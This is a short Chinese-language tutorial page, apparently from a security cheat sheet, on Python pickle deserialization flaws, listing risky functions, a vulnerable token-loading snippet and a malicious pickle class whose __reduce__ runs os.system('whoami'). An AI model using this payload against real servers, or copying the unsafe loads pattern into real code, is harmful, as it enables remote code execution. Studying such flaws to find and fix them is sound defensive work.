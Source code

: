 # Python反序列化

* 在Python源代码中查找：
  * `cPickle.loads`
  * `pickle.loads`
  * `_pickle.loads`
  * `jsonpickle.decode`

## Pickle

以下代码是一个简单的示例，展示了如何使用`cPickle`生成一个序列化的User对象auth_token。
:warning: `import cPickle` 仅在Python 2中有效

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

当从用户输入加载令牌时，会引入漏洞。

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7文档明确指出，Pickle不应与不受信任的来源一起使用。让我们创建一个恶意数据，该数据将在服务器上执行任意代码。

> pickle模块对于错误或恶意构造的数据不安全。永远不要反序列化来自不受信任或未经身份验证的来源的数据。

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

## 参考资料

* [利用Python的“pickle”误用 - 2011年3月20日](https://blog.nelhage.com/2011/03/exploiting-pickle/)
* [Python Pickle注入 - 2017年4月30日](http://xhyumiracle.com/python-pickle-injection/)
